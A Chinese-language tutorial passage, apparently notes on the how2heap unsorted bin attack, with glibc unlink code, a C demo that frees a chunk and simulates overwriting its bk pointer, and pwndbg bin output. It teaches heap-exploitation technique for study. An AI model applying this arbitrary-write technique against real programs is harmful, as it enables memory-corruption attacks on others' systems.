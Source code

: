 ## unsorted_bin_attack

Exploiting the overwrite of a freed chunk on unsorted bin freelist to write a large value into arbitrary address

> unsorted bin 攻击通常是为更进一步的攻击做准备的，我们知道 unsorted bin 是一个双向链表，在分配时会通过 unlink 操作将 chunk 从链表中移除，所以如果能够控制 unsorted bin chunk 的 bk 指针，就可以向任意位置写入一个指针。这里通过 unlink 将 libc 的信息写入到我们可控的内存中，从而导致信息泄漏，为进一步的攻击提供便利。

### 解释

unlink 的对 unsorted bin 的操作是这样的：

``` c++
    /* remove from unsorted list */
        unsorted_chunks (av)->bk = bck;
        bck->fd = unsorted_chunks (av);
```

我们先申请两块 chunk，释放第一个使其加入 unsorted bin：

``` c++
	unsigned long *p=malloc(400);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);
```

```
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x602000 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602000
smallbins
empty
largebins
empty
```

接下来，我们假设有堆溢出漏洞：

``` c++
	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------
```
